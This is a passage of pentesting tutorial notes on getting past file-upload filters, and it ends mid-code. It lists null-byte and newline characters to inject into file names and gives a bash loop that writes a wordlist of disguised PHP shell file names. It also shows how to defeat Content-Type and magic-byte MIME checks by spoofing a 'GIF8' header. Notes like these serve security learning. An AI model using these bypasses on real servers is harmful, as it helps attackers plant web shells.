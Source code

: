 <h3>Character Injection</h3>
<p>Characters to try:</p>
<pre>
%20
%0a
%00
%0d0a
/
.\
.
…
:
</pre>
<p>Custom script to generate a wordlist:</p>
<pre>
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
</pre>
<p>Used for outdated backend or misconfigurations.</p>

<h2>Type Filters</h2>
<p>Example code to test Content-Type header:</p>
<pre>
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
</pre>
<p>Just change the content type header. Can also fuzz for allowed types In Burpsuite using the content-type wordlist from seclists.</p>

<h2>MIME types</h2>
<p>Magic bytes (first few bytes) indicate which file it is.</p>
<pre>
echo "this is a text file" > text.jpg
file text.jpg 
text.jpg: ASCII text
</pre>
<p>The file command looks at these magic bytes to determine the file type. Even if it is a JPG extension the file command sees it as a .txt file</p>
<p>Changing it to GIF while keeping the JPG extension:</p>
<pre>
echo "GIF8" > text.jpg 
file text.jpg
text.jpg: GIF image data
</pre>
<p>Example of server codes that checks the MIME-type:</p>
<pre>
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);
